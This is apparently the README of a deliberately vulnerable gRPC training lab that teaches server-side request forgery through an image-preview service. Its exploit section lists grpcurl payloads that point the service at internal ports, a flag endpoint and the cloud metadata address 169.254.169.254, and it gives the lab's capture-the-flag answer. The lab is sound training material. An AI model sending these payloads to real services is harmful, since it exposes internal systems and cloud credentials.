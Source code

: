 # Lab 009: SSRF (Server-Side Request Forgery)

## Vulnerability
Image Preview service that fetches images from user-provided URLs without validation.

## Objective
Exploit SSRF to access internal services and capture the flag.

## Run the Lab
```bash
# Build and run
docker build -t grpc-009 .
docker run -p 8009:8009 grpc-009
```

## Exploit

```bash
# Install grpcurl
go install github.com/fullstorydev/grpcurl/cmd/grpcurl@latest

# Normal image fetch (external URL)
grpcurl -plaintext -d '{
  "url": "https://httpbin.org/get"
}' localhost:8009 imagepreview.ImagePreview/FetchImage

# SSRF - Access internal flag server
grpcurl -plaintext -d '{
  "url": "http://localhost:8080/flag"
}' localhost:8009 imagepreview.ImagePreview/FetchImage

# SSRF - Access internal service root
grpcurl -plaintext -d '{
  "url": "http://127.0.0.1:8080"
}' localhost:8009 imagepreview.ImagePreview/FetchImage

# SSRF - Access metadata service (cloud environments)
grpcurl -plaintext -d '{
  "url": "http://169.254.169.254/latest/meta-data/"
}' localhost:8009 imagepreview.ImagePreview/FetchImage

# SSRF - Access internal network
grpcurl -plaintext -d '{
  "url": "http://127.0.0.1:22"
}' localhost:8009 imagepreview.ImagePreview/FetchImage
```

## Impact
Attackers can access internal services, cloud metadata, and local files.

## Flag
Successfully access internal resources to get: `GRPC_GOAT{ssrf_internal_service_access}`

## Mitigation
Validate URLs, use allowlists, and restrict network access for the service.
